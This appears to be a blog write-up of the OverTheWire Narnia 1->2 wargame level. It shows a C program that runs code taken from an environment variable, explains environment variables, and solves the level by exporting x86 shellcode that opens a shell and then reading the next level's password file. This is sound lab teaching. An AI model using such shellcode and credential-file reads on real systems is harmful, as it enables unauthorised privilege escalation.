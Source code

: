 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 1 -> 2"
subtitle:   "Write-Up"
date:       2017-02-02 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
category: Overthewire
---
```


<h1>Introduction</h1>
<p>Another month, another challenge, next part of OverTheWire's Narnia wargames. Unfortunately lack of time, made it impossible for me to publish anything sooner. Sorry for that!</p>

<h1>Challenge</h1>

<p>Firstly let's take a look at the code of the program. </p>

{% highlight c %}
#include <stdio.h>

int main(){
	int (*ret)();

	if(getenv("EGG")==NULL){    
		printf("Give me something to execute at the env-variable EGG\n");
		exit(1);
	}

	printf("Trying to execute EGG!\n");
	ret = getenv("EGG");
	ret();

	return 0;
}

{% endhighlight %}

<p>The first thing that I see is that this program will check, whether or not the value of EGG variable is empty, if yes, it will print the message. But if not, it will try to execute it. </p>

<p>But what is enviromental variable? </p>

<p>Every time shell session is started, process is gathering information that should be available to the shell process and all child processes, putting them in special area called <b>enviroment</b>. </p>

<p><b>Enviromental variables</b> provide a way to influence the behaviour of software on the system. For example, the "LANG" environment variable determines the language in which software programs communicate with the user. They are represented as an key-value pairs. </p>

<pre>
KEY=VALUE
KEY=VALUE1:VALUE2
KEY="VALUE WITH SPACES"
</pre>

<p>Now when we understand the topic, let's try to set EGG variable as some random text possibly causing the program to crash. </p>

{% highlight bash %}
narnia1@melinda:/narnia$ export "EGG"="completelyrandomtext"
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
Segmentation fault
{% endhighlight %}

<p>Yes! Now let's try and find some x86 shellcode that will be executed by the program. What I found working, was this <a href="http://shell-storm.org/shellcode/files/shellcode-811.php">shellcode</a>, which was actually second one I've tried - the first one didn't want to cooperate ;)</p>

{% highlight bash %}
narnia1@melinda:/narnia$ export "EGG"=$'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
{% endhighlight %}

<p>We have the password to the next level! </p>

<h1>Conclusion</h1>

<p>It was another great challenge from <a href="www.overthewire.org">OverTheWire</a>. I'm looking forward to the next one, maybe something a little bit harder? We'll see!</p>

<p><b>UPDATE</b></p>
<p>To gain better insight into who visits my website, I decided to add Piwik Analytics as a way to both give me essential information, and to repsect your privacy. You can read more at the <a href="/privacy/">Privacy Policy</a>, but if you still have any questions, contact me and I'll try my best to answer. </p>

<p>~ Stay safe!</p>

